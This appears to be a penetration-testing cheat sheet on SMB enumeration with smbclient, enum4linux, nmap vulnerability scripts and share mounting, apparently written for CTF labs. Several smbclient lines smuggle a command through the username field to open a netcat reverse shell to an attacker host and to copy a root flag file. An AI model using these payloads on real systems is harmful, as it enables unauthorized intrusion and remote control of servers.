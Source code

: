 # **SMB Enumeration**

```
smbclient -L x.x.x.x
smbmount //x.x.x.x/share /mnt –o username=hodor,workgroup=hodor
smbclient \\\\x.x.x.x\\share
enum4linux -a ip
rpcclient -U "" x.x.x.x  # Anonymous bind using rpcclient / Null connect
smbclient //MOUNT/share  # Connect to SMB share
smbclient -U "/=\`nohup nc -e /bin/sh LHOST LPORT\`" -N -I ip //LAME/tmp
nmap -T4 -sS -sC -Pn -A --script smb-vuln* ip
smbclient //ip/tmplogon "./=\`nohup nc -e /bin/sh LHOST LPORT\`"
smbclient -U "/=\`nohup cat /root/root.txt > /tmp/ttt\`" -N -I ip //LAME/tmp
smbclient -U "/=\`nohup nc -e /bin/sh 10.10.15.11 60000\`" -N -I ip //LAME/tmp
smbclient -L ip
enum4linux -S ip
```

## **Nmap SMB Script Scan**

- #### SMB Users and Share Scan
```
nmap -p 445 -vv --script=smb-enum-shares.nse,smb-enum-users.nse ip
```
- #### SMB Vulnerability Scan
```
nmap -p 445 -vv --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse ip
```
- #### SMB Vulnerability Check with Unsafe Arguments
```
nmap --script smb-check-vulns.nse --script-args=unsafe=1 -p445 ip
```
- #### SMB Vulnerability Check
```
nmap --script=smb-check-vulns.nse x.x.x.x
```
- #### Mounting an NFS share without using locks
```
mount ip:/vol/share /mnt/nfs -nolock
```
- #### Mounting a CIFS share with specified credentials and domain
```
mount -t cifs -o username=user,password=pass,domain=blah //ip.X/share-name /mnt/cifs
```
- #### Mounting a CIFS share without specifying credentials (prompt for password)
```
mount -t cifs //x.x.x.x/share /mnt
```
- #### Mounting a CIFS share with specified credentials
```
- #### mount -t cifs -o username=hodor,password=hodor //x.x.x.x/share /mnt
```
- #### Mounting Share folder
```
sudo mount -t fuse.vmhgfs-fuse .host:/ /mnt/hgfs -o allow_other​
```
## **Create a SMB Server**
- In kali hosting a smb server
```
impacket-smbserver ShareFolder $(pwd)
```
- ​In windows
```
New-PSDrive -Name "Followme" -PSProvider "FileSystem" -Root "\\ip\ShareFolder"
```

